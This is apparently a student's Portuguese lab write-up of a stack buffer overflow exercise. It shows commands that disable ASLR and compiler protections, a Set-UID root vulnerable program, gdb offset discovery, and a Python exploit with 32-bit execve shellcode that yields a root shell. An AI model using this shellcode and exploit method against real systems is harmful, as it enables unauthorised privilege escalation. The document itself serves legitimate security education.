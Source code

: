 # Buffer Overflow

## Environment Setup

> Numa primeira fase, desligamos algumas das proteções do sistema operativo, como por exemplo a randomização do espaço de endereços e a proibição ao nível da shell de ser executada por processos com Set-UID.
>```bash
> $ sudo sysctl -w kernel.randomize_va_space=0
> $ sudo ln -sf /bin/zsh /bin/sh
>```

## Task 1: Getting Familiar with Shellcode

> Primeiro executamos um programa simples que abre uma shell utilizando o commando `execve`:
> ```c
> char *name[2];
> name[0] = "/bin/sh";
> name[1] = NULL;
> execve(name[0], name, NULL);
> ```
> De seguida, fizemos o mesmo utilizando o shellcode respetivo e invocando-o desde a stack, tanto para 32 bits como para 64 bits. <br><br>
> Em todos os casos, foi aberta uma shell no mesmo diretório em que foi executado o programa.

## Task 2: Understanding the Vulnerable Program

> Inicialmente estudamos o código do programa com uma vulnerabilidade *buffer-overflow*. Reparamos que tenta-se copiar para um buffer de tamanho máximo de 100 bytes, um array de carateres que pode ter até 517 bytes. Como o `strcpy` não verifica os limites do buffer, acaba por ocorrer overflow. <br><br>
> Para o programa vulnerável, desativamos o *StackGuard* e as proteções contra a execução de código invocado desde a stack. Para além disso, mudamos o owner do programa para `root` e ativamos o `Set-UID`
> ```bash
> $ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
> $ sudo chown root stack
> $ sudo chmod 4755 stack
> ```

## Task 3: Launching Attack on 32-bit Program

> Para fazer uso da vulnerabilidade, primeiro criamos o ficheiro `badfile` vazio e executamos o código vulnerável em modo debug, de modo a descobrir a posição do endereço de retorno da função `bof()` relativamente ao inicio do buffer. Para isso usámos `gdb` para fazer debug e colocamos um breakpoint na função `bof()`.
> ```bash
> $ touch badfile # Criar o ficheiro badfile vazio
> $ gdb stack-L1-dbg # Executar o programa em modo debug
> ...
> gdb-peda$ b bof # Criar um breakpoint na função bof
> ...
> gdb-peda$ run # Executar o programa até parar no breakpoint
> ...
> gdb-peda$ next # Avançar algumas intruções até que o registo ebp passe de apontar para a stack frame da função bof(), visto que antes ainda apontava para a stack frame da função que chamou bof()
> ...
> gdb-peda$ p $ebp # Obter o valor de ebp
> $1 = (void *) 0xffffca98
> gdb-peda$ p &buffer # Obter o endereço do início do buffer
> $2 = (char (*)[100]) 0xffffca2c
> ```
> Após obter os endereços necessários, falta inserir no ficheiro `badfile` o conteúdo que pretendemos inserir no buffer (shellcode e o endereço de retorno que aponta para esse shellcode). Para isto usamos o programa fornecido em python, com as seguintes alterações <br> <br>
> Na variável `shellcode` inserimos o shellcode em 32-bits que executa uma shell
> ```python
> shellcode= (
>  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
>  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
>  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
> ).encode('latin-1')
> ```
> Criou-se uma array de bytes de tamanho 517 (tamanho máximo da array de carateres lida do ficheiro pelo programa vulnerável), em que todos os bytes são NOP (0x90)
> ```python
> content = bytearray(0x90 for i in range(517))
> ```
> Colocou-se o shellcode no final da array de bytes
> ```py
> start = 517-len(shellcode)  
> content[start:start + len(shellcode)] = shellcode
> ```
> Calculou-se o novo endereço de retorno que aponta para o shell code a executar
> ```py
> ret    = 0xffffca98 + start 
> ```
> Utilizando os 2 endereços obtidos no debug, calculou-se a localização do endereço de retorno relativamente ao inicio do array (offset) e colocou-se o novo endereço de retorno que aponta para o shellcode calculado anteriormente (ret)
> ```py
> offset = 0xffffca98 - 0xffffca2c + 4 
> L = 4  
> content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
> ```
> Executou-se o programa e este gerou o ficheiro `badfile`. <br><br>
> Finalmente, executou-se o programa vulnerável que provocou o buffer overflow e lançou uma shell com permissões root, tal como previsto. <br> <br>
> ![Buffer Overflow](../img/bufferoverflow.png)